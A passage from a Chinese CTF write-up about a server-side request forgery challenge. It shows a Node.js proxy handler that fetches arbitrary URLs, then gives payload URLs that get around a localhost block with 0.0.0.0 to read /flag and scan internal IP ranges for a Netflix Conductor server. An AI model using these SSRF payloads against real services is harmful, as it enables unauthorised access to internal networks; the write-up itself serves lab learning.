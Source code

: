 ```js
  const result = {title: 'Search Success', content: ''}

  const method = req.method.toLowerCase()
  const url = decodeURI(req.query.url)
  const data = req.body

  try {
    if(method == 'get') {
      const response = await axios.get(url)
      result.content = formatResopnse(response.data)
    } else if(method == 'post') {
      const response = await axios.post(url, data)
      result.content = formatResopnse(response.data)
    } else {
      result.title = 'Error'
      result.content = 'Unsupported Method'
    }
  } catch(error) {
    result.title = 'Error'
    result.content = error.message
  }

  return res.json(result)
})
```

通过get传参url获取参数, 而且不让 127.0.0.1 访问, 还是用 0.0.0.0 去请求 /flag 路由

```
/proxy?url=http://0.0.0.0:3000/search?url=http://0.0.0.0:3000/flag
```

提示在内网中有一个 netflix conductor server 

```
someone else also deploy a netflix conductor server in Intranet?
```

> https://github.com/Netflix/conductor
>
> https://netflix.github.io/conductor/
>
> Conductor is an *orchestration* engine that runs in the cloud.

它默认是开在 8080 端口，于是在内网中扫一扫

```
/proxy?url=http://0.0.0.0:3000/search?url=http://10.128.0.*:8080/
/proxy?url=http://0.0.0.0:3000/search?url=http://10.0.140.*:8080/
```

扫到返回大量信息的ip

```
/proxy?url=http://0.0.0.0:3000/search?url=http://10.0.140.9:8080/
```
